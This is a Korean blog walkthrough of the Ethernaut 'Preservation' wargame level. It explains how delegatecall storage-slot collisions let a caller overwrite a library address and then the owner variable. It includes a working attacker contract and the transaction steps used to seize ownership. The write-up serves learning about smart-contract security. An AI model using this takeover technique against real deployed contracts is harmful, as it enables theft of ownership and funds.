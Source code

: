 문제 해설에 들어가기 전,  이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.



## Preservation



이번에도 역시 주어진 조건을 읽어보자. 필자의 초월해석이 담겨 있기 때문에, 원문을 직접 읽는 것이 제일 좋다.



이 컨트랙트는 2개의 다른 시간대의 다른 시간을 저장하는 라이브러리를 활용한다. 생성자는 각각의 시간에 저장된 2개의 라이브러리의 인스턴스로 만든다. 이번 단계의 목표는 주어진 인스턴스의 오너권한을 행사할 수 있는 것이다.

 - 솔리디티 문서에 있는 로우레벨 함수 `delegatecall`의 작동방식, 어떻게 체인에서 delegate가 사용되는지 확인해보자. 라이브러리들이 실행 스코프안에서 어떤 영향을 미치는지.
 - delegatecall이 context-preserving하는 것이 무엇을 의미하는지 이해해보자
 - 어떻게 변수를 저장하고 접근하는지 이해하자
 - 다른 데이터 타입들간의 형변환이 어떻게 작용하는지 이해하자.



사실 이번 문제에서 요구하는 위 4가지의 조건은 앞선 문제들에서 우리들이 훈련한 것 들이다. 비록 난이도가 8에 해당하지만, 주어진 조건이 무슨말인지 정확한 이해를 한다면 간단하게 문제를 해결할 수 있다.



### 코드 분석

코드 분석에 들어가기 앞서서, 조건에서 Preservation 컨트랙트는 라이브러리부터 만들어진 2개의 인스턴스 주소로 생성자가 만들어진다. 때문에 우리는 우선적으로 라이브러리를 먼저 확인해 보겠다.



#### LibraryContract.sol

```javascript
// Simple library contract to set the time
contract LibraryContract {
  uint storedTime;  // stores a timestamp 

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

라이브러리 컨트랙트는 setTime 함수를 통해 _time을 변수로 받아 storedTime에 저장하는 아주 간단한 구조를 가지고 있다.



#### Preservation.sol

```javascript
pragma solidity ^0.4.23;

contract Preservation {
  address public timeZone1Library;	// 라이브러리 객체1의 주소, 실제 슬롯 0차지
  address public timeZone2Library;	// 라이브러리 객체2의 주소, 실제 슬롯 1차지
  address public owner; // 실제 슬롯 2차지
  uint storedTime;
  // 라이브러리 컨트랙트의 setTime함수를 호출하기 위한 function signature를 만드는과정
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}
```

당신이 delegatecall의 기능을 알고 있다는 전제하에 만약, 여기까지 코드를 읽고 주어진 문제의 구조를 이해했다면 당신은 이미 문제를 푼 것과 다름 없다.

아래 그림은 이 문제의 구조에 대한 이해를 돕기 위해 이더스캔에서 가져온 그림이다.

![문제에 대한 이더스캔](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/Preservation01.png?raw=true)

각 색깔에 따른 주소를 확인해보면 문제의 구조를 알 수 있다. 아래는 timeZone1,2에 대한 address를 이더스캔에서 확인하여 소스코드가 Library 컨트랙트라는 것을 알 수 있는 사진이다.

![라이브러리 컨트랙트](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/Preservation02.png?raw=true)

이더스캔을 통하여 문제로 주어진 Instance Address에 해당하는 Preservation.sol의 구조를 파악했다.



> #### DelegateCall
>
> 이미 17단계 까지 왔다면 Delegate Call에 대한 기능을 숙지하고 있겠지만 복습차 살펴보겠다.
>
> [stackexchange에서 설명하는 delegatecall](https://ethereum.stackexchange.com/questions/8120/how-does-the-delegatecall-method-work-to-call-to-another-contracts-method) 이 링크를 간략하게 설명하자면 컨트랙트 D에서 컨트랙트 E안에 있는 setN함수를 활용하여 인자 값에 n을 넣으면 컨트랙트 E는 수정이 불가하고 D의 n 값이 set 된다는 이야기를 통해 `delegatecall`을 설명하고 있다.



그렇다면 우리는 Preservation.sol 과 같은 데이터 구조를 갖는 악의적인 컨트랙트를 만들어서 Preservation의 내부함수가 악의적인 컨트랙트를 참조하게 만들면 Preservation 컨트랙트의 내용이 변경된다는 것을 알 수 있다. **즉, Prservation은 복습차 살펴본 예시의 컨트랙트 D에 해당하고 악의적인 컨트랙트는 컨트랙트 E에 해당하는 것이다.**

그러나 여기서 의문점이 들수도 있다. 이미 Preservation 컨트랙트는 timeZone이라는 변수에 각각의 라이브러리 컨트랙트를 참조하고 있다. 이것을 악의적인 컨트랙트의 주소로 바꾸기 위해서는 **setFristTime**함수의 매개변수에 악의적인 컨트랙트의 CA주소를 넣어야 한다! 다시말해, delegatecall의 약점을 활용해서 본래 배포한 컨트랙트의 주소를 바꾸는 것이다.



### 문제 풀이 과정

우선 Preservation 컨트랙트의 코드를 리믹스에 복사하여 문제에 해당하는 CA주소를 넣고 불러온다.

이어서 공격이 될 악의적인 컨트랙트 ChangeOwner.sol을 컴파일하고 배포한다.

```javascript
contract ChangeOwner {	// Preservation.sol과 동일한 데이터 구조를 갖는다.
  address public slot1;	// Preservation에서 timeZone1에 해당, 실제 슬롯 0차지
  address public slot2;	// Preservation에서 timeZone2에 해당, 실제 슬롯 1차지
  address public owner; // Preservation에서 owner에 해당, 실제 슬롯 2차지

  function setTime(uint _time) public {
    owner = tx.origin;	// 이 문장에서 나의 주소로 owner를 변경한다.
  }
}
```

이후 ChangeOwner의 CA주소를 Preservation 컨트랙트의 setFirstTime의 매개변수로 넣고 트랜잭션을 발생시킨다. 이때! delegatecall은 많은 가스비를 필요로 하기 때문에, **직접 가스리밋을 50000이상으로 넉넉히 수정하여 주자!!**

첫번째 setFirstTime 함수 호출이 성공적으로 끝난 다음, timeZone1Library를 확인해 보면 ChangeOwner의 CA주소로 값이 변경되었을 것이다. 이후 한번더 setFirstTime 함수로 owner를 바꾸고 답안지를 제출하면 성공!!



문제를 풀면 다음과 같은 출제의도를 말해준다

> As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract "libraries" that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.

delegatecall을 사용하여 라이브러리들을 호출하는 것은 위험하다.  이 예제를 통하여 라이브러리를 빌딩하는데, 라이브러리가 변수의 상태에 접근하거나 저장할 수 없게 하기 위해  `library`키워드를 사용하는 이유를 설명하고 있다. 그동안 library 키워드를 왜 사용하는지 알 수 없었는데 이번 문제를 통해서 확실하게 앎과 동시에 delegatecall 복습을 통하여 더 강력한 활용법을 알 수 있었다. 



그럼, 다음번에는 18단계 Recovery에서 만나요!
